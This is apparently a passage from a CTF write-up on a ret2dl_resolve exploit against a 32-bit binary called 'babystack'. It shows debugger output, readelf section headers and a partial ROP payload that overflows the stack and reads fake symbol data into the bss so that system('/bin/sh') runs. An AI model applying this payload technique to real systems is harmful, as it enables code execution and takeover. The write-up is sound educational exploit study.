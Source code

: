 ```
gef➤  x/w 0x804a00c
0x804a00c <read@got.plt>:    0xf7ec67e0
gef➤  x/i 0xf7ec67e0
   0xf7ec67e0 <read>:    push   esi
gef➤  p read
$2 = {<text variable, no debug info>} 0xf7ec67e0 <read>
```

Our attack will be to essentially create a fake symbols table (`symtab`), with a known offset to a fake symbol. If we were to pass this to `_dl_runtime_resolve`, it would call `_dl_fixup` which would turn around to resolve and execute that symbol (assuming it resolves to an actual libc function). That is what we will do to execute `system`.

#### Scanning in more data

So to scan in the full payload for the `ret2dl`, we won't be able to fit it into the initial `64` bytes worth of data. So we will have to be making another call to `read`. We will be scanning it into `0x804a020`, which is the start of the `bss`. This is where we will store the things needed for the `ret_2_dl_reslove`:

```
payload0 += "0"*44                        # Filler from start of input to return address
payload0 += p32(elf.symbols['read'])    # Return read
payload0 += scanInput                    # After the read call, return to scan input
payload0 += p32(0)                        # Read via stdin
payload0 += p32(bss)                    # Scan into the start of the bss
payload0 += p32(payload1_size)            # How much data to scan in
```

After that, we will jump back to the `scanInput` function, so we can re-exploit the bug again. This time we will just jump to `0x80482f0` with the arguments being `rel_plt_entry_index` and `/bin/sh` to call a shell.

## Executing ret_2_dl_resolve

Now to actually execute the attack, we will be needing to create some fake entries. First, let's take a look at all of the sections in this binary. Also just to be clear, our goal is to run the libc `system` function:

```
$    readelf -S babystack
There are 29 section headers, starting at offset 0x1150:

Section Headers:
  [Nr] Name              Type            Addr     Off    Size   ES Flg Lk Inf Al
  [ 0]                   NULL            00000000 000000 000000 00      0   0  0
  [ 1] .interp           PROGBITS        08048154 000154 000013 00   A  0   0  1
  [ 2] .note.ABI-tag     NOTE            08048168 000168 000020 00   A  0   0  4
  [ 3] .note.gnu.build-i NOTE            08048188 000188 000024 00   A  0   0  4
  [ 4] .gnu.hash         GNU_HASH        080481ac 0001ac 000020 04   A  5   0  4
  [ 5] .dynsym           DYNSYM          080481cc 0001cc 000060 10   A  6   1  4
  [ 6] .dynstr           STRTAB          0804822c 00022c 000050 00   A  0   0  1
  [ 7] .gnu.version      VERSYM          0804827c 00027c 00000c 02   A  5   0  2
  [ 8] .gnu.version_r    VERNEED         08048288 000288 000020 00   A  6   1  4
  [ 9] .rel.dyn          REL             080482a8 0002a8 000008 08   A  5   0  4
  [10] .rel.plt          REL             080482b0 0002b0 000018 08  AI  5  24  4
  [11] .init             PROGBITS        080482c8 0002c8 000023 00  AX  0   0  4
  [12] .plt              PROGBITS        080482f0 0002f0 000040 04  AX  0   0 16
  [13] .plt.got          PROGBITS        08048330 000330 000008 00  AX  0   0  8
  [14] .text             PROGBITS        08048340 000340 0001b2 00  AX  0   0 16
  [15] .fini             PROGBITS        080484f4 0004f4 000014 00  AX  0   0  4
  [16] .rodata           PROGBITS        08048508 000508 000008 00   A  0   0  4
  [17] .eh_frame_hdr     PROGBITS        08048510 000510 000034 00   A  0   0  4
  [18] .eh_frame         PROGBITS        08048544 000544 0000ec 00   A  0   0  4
  [19] .init_array       INIT_ARRAY      08049f08 000f08 000004 00  WA  0   0  4
  [20] .fini_array       FINI_ARRAY      08049f0c 000f0c 000004 00  WA  0   0  4
```